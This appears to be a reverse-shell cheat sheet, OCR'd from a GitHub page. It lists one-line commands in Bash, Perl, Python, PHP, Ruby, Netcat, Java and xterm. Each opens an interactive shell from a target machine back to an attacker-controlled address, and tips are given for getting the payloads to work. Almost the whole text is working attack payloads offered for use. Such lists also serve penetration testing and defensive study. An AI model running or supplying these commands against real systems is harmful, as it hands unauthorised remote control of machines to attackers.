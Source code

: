 ## Bash

```
bash -i >& /dev/tcp/192.168.1.10/8080 0>&1
```
## PERL

```
perl -e 'use Socket;$i="192.168.1.10";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


## Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

This code assumes that the TCP connection uses file descriptor 3. If it doesn’t work, try 4, 5, 6…
```
php -r '$sock=fsockopen("192.168.1.10",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("192.168.1.10",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


## Netcat

Note: There are several version of netcat, some of which don’t support the -e option.

```
nc -e /bin/sh 192.168.1.10 1234
```
If you have the wrong version of netcat installed you can try this to get a reverse shell back:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.10 1234 >/tmp/f

## Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.10/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## xterm

This command should be run on the server to connect back to you (192.168.1.10) on TCP port 6001.
```
xterm -display 192.168.1.10:1
```
To catch the incoming xterm, start an X-Server (:1 – listens on TCP port 6001). You must also run Xnest on your system:
```
Xnest :1
```
You’ll need to authorise the target to connect back to you, the command must also be run on your host:
```
xhost +targetip
```
